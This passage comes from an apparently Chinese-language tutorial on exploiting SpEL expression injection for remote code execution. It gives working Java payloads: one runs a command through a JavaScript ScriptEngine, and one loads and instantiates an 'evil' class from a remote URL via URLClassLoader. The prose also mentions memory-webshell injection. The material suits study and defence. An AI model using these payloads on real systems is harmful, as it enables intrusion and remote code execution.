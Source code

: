 ```java

```

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "new javax.script.ScriptEngineManager().getEngineByName(\"javascript\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}

```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1691249937527-b353048a-2ad3-4660-9937-6a3eb6c6c364.png#averageHue=%232b2c29&clientId=u39a47a36-8eef-4&from=paste&height=798&id=ue8c18f53&originHeight=998&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2267954&status=done&style=none&taskId=u5b44b22d-9239-40b2-9158-636788f0e4c&title=&width=1536)  
原来直接new 就可以了，我们JavaScriptengine玩家真的是太有操作了。  
不过在这里还是得多一嘴的，其实JavaScriptengine已经可以做很多事情了，比如注入内存马之类的。Js代码是很灵活的。所以需要好好利用。

三、RCE飞雷神二段
==========

纯度秘典第二页，用远程类加载进行RCE。

UrlClassloader
--------------

这个方法就是通过远程类加载。代码如下

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class SpelVulTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException {
        String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").getConstructors()[0].newInstance()";
        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}

```
